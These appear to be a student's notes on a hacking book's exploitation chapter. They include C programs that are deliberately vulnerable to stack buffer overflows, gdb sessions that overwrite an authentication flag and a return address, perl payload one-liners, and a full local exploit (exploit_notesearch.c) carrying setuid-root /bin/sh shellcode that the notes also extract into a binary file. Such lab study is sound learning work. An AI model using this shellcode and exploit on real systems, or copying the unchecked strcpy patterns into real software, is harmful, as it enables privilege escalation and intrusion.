





#### 0x300 Exploitation

###### Buffer Overflow

C is a high-level programming language, but it assumes that the programmer is responsible for data integrity. If this responsibility were shifted over to the compiler, the resulting binaries would be significantly slower, due to integrity checks on every variable. Also, this would remove a significant level of control from the programmer and complicate the language.

```c
root@kali:~/hacking/booksrc# cat overflow_example.c
#include <stdio.h>
#include <string.h>

int main(int argc, char *argv[]) {
	int value = 5;
	char buffer_one[8], buffer_two[8];

	strcpy(buffer_one, "one"); /* put "one" into buffer_one */
	strcpy(buffer_two, "two"); /* put "two" into buffer_two */

	printf("[BEFORE] buffer_two is at %p and contains \'%s\'\n", buffer_two, buffer_two);
	printf("[BEFORE] buffer_one is at %p and contains \'%s\'\n", buffer_one, buffer_one);
	printf("[BEFORE] value is at %p and is %d (0x%08x)\n", &value, value, value);

	printf("\n[STRCPY] copying %d bytes into buffer_two\n\n",  strlen(argv[1]));
	strcpy(buffer_two, argv[1]); /* copy first argument into buffer_two */

	printf("[AFTER] buffer_two is at %p and contains \'%s\'\n", buffer_two, buffer_two);
	printf("[AFTER] buffer_one is at %p and contains \'%s\'\n", buffer_one, buffer_one);
	printf("[AFTER] value is at %p and is %d (0x%08x)\n", &value, value, value);
}
root@kali:~/hacking/booksrc#
```

```sh
root@kali:~/hacking/booksrc# gcc overflow_example.c -o overflow_example
```

```sh
root@kali:~/hacking/booksrc# ./overflow_example
[BEFORE] buffer_two is at 0xbffe894c and contains 'two'
[BEFORE] buffer_one is at 0xbffe8954 and contains 'one'
[BEFORE] value is at 0xbffe895c and is 5 (0x00000005)
Segmentation fault
root@kali:~/hacking/booksrc#
```

```sh
root@kali:~/hacking/booksrc# ./overflow_example 1234567890
[BEFORE] buffer_two is at 0xbfeb969c and contains 'two'
[BEFORE] buffer_one is at 0xbfeb96a4 and contains 'one'
[BEFORE] value is at 0xbfeb96ac and is 5 (0x00000005)

[STRCPY] copying 10 bytes into buffer_two

[AFTER] buffer_two is at 0xbfeb969c and contains '1234567890'
[AFTER] buffer_one is at 0xbfeb96a4 and contains '90'
[AFTER] value is at 0xbfeb96ac and is 5 (0x00000005)
root@kali:~/hacking/booksrc#
```

```sh
root@kali:~/hacking/booksrc# ./overflow_example AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[BEFORE] buffer_two is at 0xbf8c822c and contains 'two'
[BEFORE] buffer_one is at 0xbf8c8234 and contains 'one'
[BEFORE] value is at 0xbf8c823c and is 5 (0x00000005)

[STRCPY] copying 31 bytes into buffer_two

[AFTER] buffer_two is at 0xbf8c822c and contains 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
[AFTER] buffer_one is at 0xbf8c8234 and contains 'AAAAAAAAAAAAAAAAAAAAAAA'
[AFTER] value is at 0xbf8c823c and is 1094795585 (0x41414141)
root@kali:~/hacking/booksrc#
```

```c
root@kali:~/hacking/booksrc# cat exploit_notesearch.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char shellcode[]=
"\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68"
"\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89"
"\xe1\xcd\x80";

int main(int argc, char *argv[]) {
   unsigned int i, *ptr, ret, offset=270;
   char *command, *buffer;

   command = (char *) malloc(200);
   bzero(command, 200); // zero out the new memory

   strcpy(command, "./notesearch \'"); // start command buffer
   buffer = command + strlen(command); // set buffer at the end

   if(argc > 1) // set offset
      offset = atoi(argv[1]);

   ret = (unsigned int) &i - offset; // set return address

   for(i=0; i < 160; i+=4) // fill buffer with return address
      *((unsigned int *)(buffer+i)) = ret;
   memset(buffer, 0x90, 60); // build NOP sled
   memcpy(buffer+60, shellcode, sizeof(shellcode)-1);

   strcat(command, "\'");

   system(command); // run exploit
   free(command);
}
root@kali:~/hacking/booksrc#
```


- Stack-Based Buffer Overflow Vulnerabilities

```c
root@kali:~/hacking/booksrc# cat auth_overflow.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int check_authentication(char *password) {
	int auth_flag = 0;
	char password_buffer[16];

	strcpy(password_buffer, password);

	if(strcmp(password_buffer, "brillig") == 0)
		auth_flag = 1;
	if(strcmp(password_buffer, "outgrabe") == 0)
		auth_flag = 1;

	return auth_flag;
}

int main(int argc, char *argv[]) {
	if(argc < 2) {
		printf("Usage: %s <password>\n", argv[0]);
		exit(0);
	}
	if(check_authentication(argv[1])) {
		printf("\n-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
		printf("      Access Granted.\n");
		printf("-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
	} else {
		printf("\nAccess Denied.\n");
   }
}
root@kali:~/hacking/booksrc#
```

```sh
root@kali:~/hacking/booksrc# gcc auth_overflow.c -o auth_overflow
```

```sh
root@kali:~/hacking/booksrc# gcc auth_overflow.c -g -o overflow_example_debug
```

```sh
root@kali:~/hacking/booksrc# ./auth_overflow testr

Access Denied.
root@kali:~/hacking/booksrc#
```

```sh
root@kali:~/hacking/booksrc# ./auth_overflow brillig

-=-=-=-=-=-=-=-=-=-=-=-=-=-
      Access Granted.
-=-=-=-=-=-=-=-=-=-=-=-=-=-
root@kali:~/hacking/booksrc#
```

```sh
root@kali:~/hacking/booksrc# ./auth_overflow outgrabe

-=-=-=-=-=-=-=-=-=-=-=-=-=-
      Access Granted.
-=-=-=-=-=-=-=-=-=-=-=-=-=-
root@kali:~/hacking/booksrc#
```

```sh
root@kali:~/hacking/booksrc# ./auth_overflow AAAAAAAAAAAAAAAAAAAAAA

-=-=-=-=-=-=-=-=-=-=-=-=-=-
      Access Granted.
-=-=-=-=-=-=-=-=-=-=-=-=-=-
root@kali:~/hacking/booksrc#
```

```sh
root@kali:~/hacking/booksrc# gdb ./overflow_example_debug -q
Reading symbols from ./overflow_example_debug...done.
(gdb) list 1
1	#include <stdio.h>
2	#include <stdlib.h>
3	#include <string.h>
4
5	int check_authentication(char *password) {
6		int auth_flag = 0;
7		char password_buffer[16];
8
9		strcpy(password_buffer, password);
10
(gdb)
11		if(strcmp(password_buffer, "brillig") == 0)
12			auth_flag = 1;
13		if(strcmp(password_buffer, "outgrabe") == 0)
14			auth_flag = 1;
15
16		return auth_flag;
17	}
18
19	int main(int argc, char *argv[]) {
20		if(argc < 2) {
(gdb)
21			printf("Usage: %s <password>\n", argv[0]);
22			exit(0);
23		}
24		if(check_authentication(argv[1])) {
25			printf("\n-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
26			printf("      Access Granted.\n");
27			printf("-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
28		} else {
29			printf("\nAccess Denied.\n");
30	   }
(gdb)
31	}
32
(gdb) break 9
Breakpoint 1 at 0x679: file auth_overflow.c, line 9.
(gdb) break 16
Breakpoint 2 at 0x6cd: file auth_overflow.c, line 16.
(gdb) run AAAAAAAAAAAAAAAAAAAAAA
Starting program: /root/hacking/booksrc/overflow_example_debug AAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, check_authentication (password=0xbffff82e 'A' <repeats 22 times>)
    at auth_overflow.c:9
9		strcpy(password_buffer, password);
(gdb) x/s password_buffer
0xbffff5fc:	"X", <incomplete sequence \375\267>
(gdb) x/x &auth_flag
0xbffff60c:	0x00
(gdb) print 0xbffff60c - 0xbffff5fc
$1 = 16
(gdb) x/16xw password_buffer
0xbffff5fc:	0xb7fd5858	0xb7fb1000	0xbffff6e4	0xb7ffed00
0xbffff60c:	0x00000000	0x00000000	0x80002000	0xbffff638
0xbffff61c:	0x80000729	0xbffff82e	0xbffff6e4	0xbffff6f0
0xbffff62c:	0x800006e9	0xbffff650	0x00000000	0x00000000
(gdb) c
Continuing.

Breakpoint 2, check_authentication (password=0xbffff82e 'A' <repeats 22 times>)
    at auth_overflow.c:16
16		return auth_flag;
(gdb) x/s password_buffer
0xbffff5fc:	'A' <repeats 22 times>
(gdb) x/x &auth_flag
0xbffff60c:	0x41
(gdb) x/16xw password_buffer
0xbffff5fc:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff60c:	0x41414141	0x00004141	0x80002000	0xbffff638
0xbffff61c:	0x80000729	0xbffff82e	0xbffff6e4	0xbffff6f0
0xbffff62c:	0x800006e9	0xbffff650	0x00000000	0x00000000
(gdb) x/4cb &auth_flag
0xbffff60c:	65 'A'	65 'A'	65 'A'	65 'A'
(gdb) x/dw &auth_flag
0xbffff60c:	1094795585
(gdb) c
Continuing.

-=-=-=-=-=-=-=-=-=-=-=-=-=-
      Access Granted.
-=-=-=-=-=-=-=-=-=-=-=-=-=-
[Inferior 1 (process 4511) exited normally]
(gdb)
```

Location of ```auth_flag``` and ```password_buffer``` are inverted

```c
root@kali:~/hacking/booksrc# cat auth_overflow2.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int check_authentication(char *password) {
	char password_buffer[16];
	int auth_flag = 0;

	strcpy(password_buffer, password);

	if(strcmp(password_buffer, "brillig") == 0)
		auth_flag = 1;
	if(strcmp(password_buffer, "outgrabe") == 0)
		auth_flag = 1;

	return auth_flag;
}

int main(int argc, char *argv[]) {
	if(argc < 2) {
		printf("Usage: %s <password>\n", argv[0]);
		exit(0);
	}
	if(check_authentication(argv[1])) {
		printf("\n-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
		printf("      Access Granted.\n");
		printf("-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
	} else {
		printf("\nAccess Denied.\n");
   }
}

root@kali:~/hacking/booksrc#
```

```sh
root@kali:~/hacking/booksrc# gcc auth_overflow2.c -g -o auth_overflow2_debug
```

```sh
root@kali:~/hacking/booksrc# gdb ./auth_overflow2_debug -q
Reading symbols from ./auth_overflow2_debug...done.
(gdb) list 1
1	#include <stdio.h>
2	#include <stdlib.h>
3	#include <string.h>
4
5	int check_authentication(char *password) {
6		char password_buffer[16];
7		int auth_flag = 0;
8
9		strcpy(password_buffer, password);
10
(gdb)
11		if(strcmp(password_buffer, "brillig") == 0)
12			auth_flag = 1;
13		if(strcmp(password_buffer, "outgrabe") == 0)
14			auth_flag = 1;
15
16		return auth_flag;
17	}
18
19	int main(int argc, char *argv[]) {
20		if(argc < 2) {
(gdb)
21			printf("Usage: %s <password>\n", argv[0]);
22			exit(0);
23		}
24		if(check_authentication(argv[1])) {
25			printf("\n-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
26			printf("      Access Granted.\n");
27			printf("-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
28		} else {
29			printf("\nAccess Denied.\n");
30	   }
(gdb)
31	}
32
(gdb) break 9
Breakpoint 1 at 0x679: file auth_overflow2.c, line 9.
(gdb) break 16
Breakpoint 2 at 0x6cd: file auth_overflow2.c, line 16.
(gdb) run AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Starting program: /root/hacking/booksrc/auth_overflow2_debug AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, check_authentication (password=0xbffff829 'A' <repeats 30 times>)
    at auth_overflow2.c:9
9		strcpy(password_buffer, password);
(gdb) x/s password_buffer
0xbffff5ec:	"X", <incomplete sequence \375\267>
(gdb) x/x &auth_flag
0xbffff5fc:	0x00
(gdb) x/16xw &auth_flag
0xbffff5fc:	0x00000000	0x00000000	0x80002000	0xbffff628
0xbffff60c:	0x80000729	0xbffff829	0xbffff6d4	0xbffff6e0
0xbffff61c:	0x800006e9	0xbffff640	0x00000000	0x00000000
0xbffff62c:	0xb7e16276	0x00000002	0xb7fb1000	0x00000000
(gdb) c
Continuing.

Breakpoint 2, check_authentication (password=0xbffff829 'A' <repeats 30 times>)
    at auth_overflow2.c:16
16		return auth_flag;
(gdb) x/s password_buffer
0xbffff5ec:	'A' <repeats 30 times>
(gdb) x/x &auth_flag
0xbffff5fc:	0x41
(gdb) x/16xw &auth_flag
0xbffff5fc:	0x41414141	0x41414141	0x41414141	0xbf004141
0xbffff60c:	0x80000729	0xbffff829	0xbffff6d4	0xbffff6e0
0xbffff61c:	0x800006e9	0xbffff640	0x00000000	0x00000000
0xbffff62c:	0xb7e16276	0x00000002	0xb7fb1000	0x00000000
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x800004b0 in puts@plt ()
(gdb)
```

```auth_flag``` is located before ```password_buffer``` in memory. This means ```auth_flag``` can never be overwritten by an overflow in ```password_buffer```.



Refer to page ```128``` - ```133``` of the book - Very detailed and nice explanation

###### Experimenting with ```BASH```

```sh
root@kali:~/hacking/booksrc# perl -e 'print "A" x 20;'
AAAAAAAAAAAAAAAAAAAA
```

```sh
root@kali:~/hacking/booksrc# perl -e 'print "\x41" x 20;'
AAAAAAAAAAAAAAAAAAAA
```

```sh
root@kali:~/hacking/booksrc#
root@kali:~/hacking/booksrc# perl -e 'print "A" x 20 . "BCD" . "\x61\x66\x67\x69"x2 . "Z";'
AAAAAAAAAAAAAAAAAAAABCDafgiafgiZ
```

```sh
root@kali:~/hacking/booksrc# $(perl -e 'print "uname";')
Linux
root@kali:~/hacking/booksrc#
```

```sh
root@kali:~/hacking/booksrc# una$(perl -e 'print "m";')e
Linux
root@kali:~/hacking/booksrc#
```

```sh
root@kali:~/hacking/booksrc# ./overflow_example $(perl -e 'print "A" x 30;')
[BEFORE] buffer_two is at 0xbffda06c and contains 'two'
[BEFORE] buffer_one is at 0xbffda074 and contains 'one'
[BEFORE] value is at 0xbffda07c and is 5 (0x00000005)

[STRCPY] copying 30 bytes into buffer_two

[AFTER] buffer_two is at 0xbffda06c and contains 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
[AFTER] buffer_one is at 0xbffda074 and contains 'AAAAAAAAAAAAAAAAAAAAAA'
[AFTER] value is at 0xbffda07c and is 1094795585 (0x41414141)
root@kali:~/hacking/booksrc#
```

```sh
root@kali:~/hacking/booksrc# gdb -q
(gdb) print 0xbf9edb1c - 0xbf9edb0c
$1 = 16
(gdb) quit
root@kali:~/hacking/booksrc#
```

```sh
root@kali:~/hacking/booksrc# ./overflow_example $(perl -e 'print "A" x 16 . "ABCD";')
[BEFORE] buffer_two is at 0xbfc6eeec and contains 'two'
[BEFORE] buffer_one is at 0xbfc6eef4 and contains 'one'
[BEFORE] value is at 0xbfc6eefc and is 5 (0x00000005)

[STRCPY] copying 20 bytes into buffer_two

[AFTER] buffer_two is at 0xbfc6eeec and contains 'AAAAAAAAAAAAAAAAABCD'
[AFTER] buffer_one is at 0xbfc6eef4 and contains 'AAAAAAAAABCD'
[AFTER] value is at 0xbfc6eefc and is 1145258561 (0x44434241)
root@kali:~/hacking/booksrc#
```

```sh
root@kali:~/hacking/booksrc# ./overflow_example $(perl -e 'print "A" x 16 . "\xef\xbe\xad\xde";')
[BEFORE] buffer_two is at 0xbfadd7ac and contains 'two'
[BEFORE] buffer_one is at 0xbfadd7b4 and contains 'one'
[BEFORE] value is at 0xbfadd7bc and is 5 (0x00000005)

[STRCPY] copying 20 bytes into buffer_two

[AFTER] buffer_two is at 0xbfadd7ac and contains 'AAAAAAAAAAAAAAAAﾭ�'
[AFTER] buffer_one is at 0xbfadd7b4 and contains 'AAAAAAAAﾭ�'
[AFTER] value is at 0xbfadd7bc and is -559038737 (0xdeadbeef)
root@kali:~/hacking/booksrc#
```

```sh
root@kali:~/hacking/booksrc# gdb ./auth_overflow2_debug -q
Reading symbols from ./auth_overflow2_debug...done.
(gdb) disassemble main
Dump of assembler code for function main:
   0x000006d5 <+0>:	lea    ecx,[esp+0x4]
   0x000006d9 <+4>:	and    esp,0xfffffff0
   0x000006dc <+7>:	push   DWORD PTR [ecx-0x4]
   0x000006df <+10>:	push   ebp
   0x000006e0 <+11>:	mov    ebp,esp
   0x000006e2 <+13>:	push   ebx
   0x000006e3 <+14>:	push   ecx
   0x000006e4 <+15>:	call   0x530 <__x86.get_pc_thunk.bx>
   0x000006e9 <+20>:	add    ebx,0x1917
   0x000006ef <+26>:	mov    eax,ecx
   0x000006f1 <+28>:	cmp    DWORD PTR [eax],0x1
   0x000006f4 <+31>:	jg     0x718 <main+67>
   0x000006f6 <+33>:	mov    eax,DWORD PTR [eax+0x4]
   0x000006f9 <+36>:	mov    eax,DWORD PTR [eax]
   0x000006fb <+38>:	sub    esp,0x8
   0x000006fe <+41>:	push   eax
   0x000006ff <+42>:	lea    eax,[ebx-0x17df]
   0x00000705 <+48>:	push   eax
   0x00000706 <+49>:	call   0x490 <printf@plt>
   0x0000070b <+54>:	add    esp,0x10
   0x0000070e <+57>:	sub    esp,0xc
   0x00000711 <+60>:	push   0x0
   0x00000713 <+62>:	call   0x4c0 <exit@plt>
   0x00000718 <+67>:	mov    eax,DWORD PTR [eax+0x4]
   0x0000071b <+70>:	add    eax,0x4
   0x0000071e <+73>:	mov    eax,DWORD PTR [eax]
   0x00000720 <+75>:	sub    esp,0xc
   0x00000723 <+78>:	push   eax
   0x00000724 <+79>:	call   0x660 <check_authentication>
   0x00000729 <+84>:	add    esp,0x10
   0x0000072c <+87>:	test   eax,eax
   0x0000072e <+89>:	je     0x768 <main+147>
   0x00000730 <+91>:	sub    esp,0xc
   0x00000733 <+94>:	lea    eax,[ebx-0x17c9]
   0x00000739 <+100>:	push   eax
   0x0000073a <+101>:	call   0x4b0 <puts@plt>
   0x0000073f <+106>:	add    esp,0x10
   0x00000742 <+109>:	sub    esp,0xc
   0x00000745 <+112>:	lea    eax,[ebx-0x17ac]
   0x0000074b <+118>:	push   eax
   0x0000074c <+119>:	call   0x4b0 <puts@plt>
   0x00000751 <+124>:	add    esp,0x10
   0x00000754 <+127>:	sub    esp,0xc
   0x00000757 <+130>:	lea    eax,[ebx-0x1796]
   0x0000075d <+136>:	push   eax
   0x0000075e <+137>:	call   0x4b0 <puts@plt>
   0x00000763 <+142>:	add    esp,0x10
   0x00000766 <+145>:	jmp    0x77a <main+165>
   0x00000768 <+147>:	sub    esp,0xc
   0x0000076b <+150>:	lea    eax,[ebx-0x177a]
   0x00000771 <+156>:	push   eax
   0x00000772 <+157>:	call   0x4b0 <puts@plt>
   0x00000777 <+162>:	add    esp,0x10
---Type <return> to continue, or q <return> to quit---
   0x0000077a <+165>:	mov    eax,0x0
   0x0000077f <+170>:	lea    esp,[ebp-0x8]
   0x00000782 <+173>:	pop    ecx
   0x00000783 <+174>:	pop    ebx
   0x00000784 <+175>:	pop    ebp
   0x00000785 <+176>:	lea    esp,[ecx-0x4]
   0x00000788 <+179>:	ret
End of assembler dump.
(gdb)  quit
root@kali:~/hacking/booksrc#
```

```sh
root@kali:~/hacking/booksrc# ./auth_overflow2_debug $(perl -e 'print "\x30\x07\x00\x00"x10')
-bash: warning: command substitution: ignored null byte in input

-=-=-=-=-=-=-=-=-=-=-=-=-=-
      Access Granted.
-=-=-=-=-=-=-=-=-=-=-=-=-=-
root@kali:~/hacking/booksrc#
```

Refer to page ```137``` - ```142``` of the book



```sh
root@kali:~/hacking/booksrc# seq 1 10
1
2
3
4
5
6
7
8
9
10
root@kali:~/hacking/booksrc#
```

```sh
root@kali:~/hacking/booksrc# seq 1 3 10
1
4
7
10
root@kali:~/hacking/booksrc#
```

```sh
root@kali:~/hacking/booksrc# for i in $(seq 1 3 10)
> do
> echo The value id $i
> done
The value id 1
The value id 4
The value id 7
The value id 10
root@kali:~/hacking/booksrc#
```

- Using the Environment

List all environment variables

```sh
root@kali:~/hacking/booksrc# env
LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:mi=00:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arc=01;31:*.arj=01;31:*.taz=01;31:*.lha=01;31:*.lz4=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.tzo=01;31:*.t7z=01;31:*.zip=01;31:*.z=01;31:*.Z=01;31:*.dz=01;31:*.gz=01;31:*.lrz=01;31:*.lz=01;31:*.lzo=01;31:*.xz=01;31:*.zst=01;31:*.tzst=01;31:*.bz2=01;31:*.bz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.deb=01;31:*.rpm=01;31:*.jar=01;31:*.war=01;31:*.ear=01;31:*.sar=01;31:*.rar=01;31:*.alz=01;31:*.ace=01;31:*.zoo=01;31:*.cpio=01;31:*.7z=01;31:*.rz=01;31:*.cab=01;31:*.jpg=01;35:*.jpeg=01;35:*.mjpg=01;35:*.mjpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35:*.pgm=01;35:*.ppm=01;35:*.tga=01;35:*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01;35:*.png=01;35:*.svg=01;35:*.svgz=01;35:*.mng=01;35:*.pcx=01;35:*.mov=01;35:*.mpg=01;35:*.mpeg=01;35:*.m2v=01;35:*.mkv=01;35:*.webm=01;35:*.ogm=01;35:*.mp4=01;35:*.m4v=01;35:*.mp4v=01;35:*.vob=01;35:*.qt=01;35:*.nuv=01;35:*.wmv=01;35:*.asf=01;35:*.rm=01;35:*.rmvb=01;35:*.flc=01;35:*.avi=01;35:*.fli=01;35:*.flv=01;35:*.gl=01;35:*.dl=01;35:*.xcf=01;35:*.xwd=01;35:*.yuv=01;35:*.cgm=01;35:*.emf=01;35:*.ogv=01;35:*.ogx=01;35:*.aac=00;36:*.au=00;36:*.flac=00;36:*.m4a=00;36:*.mid=00;36:*.midi=00;36:*.mka=00;36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;36:*.wav=00;36:*.oga=00;36:*.opus=00;36:*.spx=00;36:*.xspf=00;36:
SSH_CONNECTION=10.85.188.14 55306 10.85.188.63 22
LANG=en_US.UTF-8
XDG_SESSION_ID=4
USER=root
PWD=/root/hacking/booksrc
HOME=/root
SSH_CLIENT=10.85.188.14 55306 22
SSH_TTY=/dev/pts/1
MAIL=/var/mail/root
TERM=xterm-256color
SHELL=/bin/bash
SHLVL=1
LOGNAME=root
DBUS_SESSION_BUS_ADDRESS=unix:path=/run/user/0/bus
XDG_RUNTIME_DIR=/run/user/0
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
_=/usr/bin/env
OLDPWD=/root/hacking
root@kali:~/hacking/booksrc#
```

Set an environment variable called ```MYVAR``` to the string ```text```

```sh
root@kali:~/hacking/booksrc# export MYVAR=text
```

```sh
root@kali:~/hacking/booksrc# env
LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:mi=00:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arc=01;31:*.arj=01;31:*.taz=01;31:*.lha=01;31:*.lz4=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.tzo=01;31:*.t7z=01;31:*.zip=01;31:*.z=01;31:*.Z=01;31:*.dz=01;31:*.gz=01;31:*.lrz=01;31:*.lz=01;31:*.lzo=01;31:*.xz=01;31:*.zst=01;31:*.tzst=01;31:*.bz2=01;31:*.bz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.deb=01;31:*.rpm=01;31:*.jar=01;31:*.war=01;31:*.ear=01;31:*.sar=01;31:*.rar=01;31:*.alz=01;31:*.ace=01;31:*.zoo=01;31:*.cpio=01;31:*.7z=01;31:*.rz=01;31:*.cab=01;31:*.jpg=01;35:*.jpeg=01;35:*.mjpg=01;35:*.mjpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35:*.pgm=01;35:*.ppm=01;35:*.tga=01;35:*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01;35:*.png=01;35:*.svg=01;35:*.svgz=01;35:*.mng=01;35:*.pcx=01;35:*.mov=01;35:*.mpg=01;35:*.mpeg=01;35:*.m2v=01;35:*.mkv=01;35:*.webm=01;35:*.ogm=01;35:*.mp4=01;35:*.m4v=01;35:*.mp4v=01;35:*.vob=01;35:*.qt=01;35:*.nuv=01;35:*.wmv=01;35:*.asf=01;35:*.rm=01;35:*.rmvb=01;35:*.flc=01;35:*.avi=01;35:*.fli=01;35:*.flv=01;35:*.gl=01;35:*.dl=01;35:*.xcf=01;35:*.xwd=01;35:*.yuv=01;35:*.cgm=01;35:*.emf=01;35:*.ogv=01;35:*.ogx=01;35:*.aac=00;36:*.au=00;36:*.flac=00;36:*.m4a=00;36:*.mid=00;36:*.midi=00;36:*.mka=00;36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;36:*.wav=00;36:*.oga=00;36:*.opus=00;36:*.spx=00;36:*.xspf=00;36:
SSH_CONNECTION=10.85.188.14 55306 10.85.188.63 22
LANG=en_US.UTF-8
OLDPWD=/root/hacking
XDG_SESSION_ID=4
USER=root
MYVAR=text
PWD=/root/hacking/booksrc
HOME=/root
SSH_CLIENT=10.85.188.14 55306 22
SSH_TTY=/dev/pts/1
MAIL=/var/mail/root
TERM=xterm-256color
SHELL=/bin/bash
SHLVL=1
LOGNAME=root
DBUS_SESSION_BUS_ADDRESS=unix:path=/run/user/0/bus
XDG_RUNTIME_DIR=/run/user/0
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
_=/usr/bin/env
root@kali:~/hacking/booksrc#
```

Extracting shellcode from a file and putting it into a file in binary format

```sh
root@kali:~/hacking/booksrc# head exploit_notesearch.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char shellcode[]=
"\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68"
"\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89"
"\xe1\xcd\x80";

int main(int argc, char *argv[]) {
   unsigned int i, *ptr, ret, offset=270;
root@kali:~/hacking/booksrc#
```

```sh
root@kali:~/hacking/booksrc# head exploit_notesearch.c | grep "^\""
"\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68"
"\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89"
"\xe1\xcd\x80";
root@kali:~/hacking/booksrc#
```

```sh
root@kali:~/hacking/booksrc# head exploit_notesearch.c | grep "^\"" | cut -d\" -f2
\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68
\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89
\xe1\xcd\x80
root@kali:~/hacking/booksrc#
```

```sh
root@kali:~/hacking/booksrc# for i in $(head exploit_notesearch.c | grep "^\"" | cut -d\" -f2); do echo -en $i; done > shellcode.bin
```

```sh
root@kali:~/hacking/booksrc# hexdump -C shellcode.bin
00000000  31 c0 31 db 31 c9 99 b0  a4 cd 80 6a 0b 58 51 68  |1.1.1......j.XQh|
00000010  2f 2f 73 68 68 2f 62 69  6e 89 e3 51 89 e2 53 89  |//shh/bin..Q..S.|
00000020  e1 cd 80                                          |...|
00000023
root@kali:~/hacking/booksrc#
```

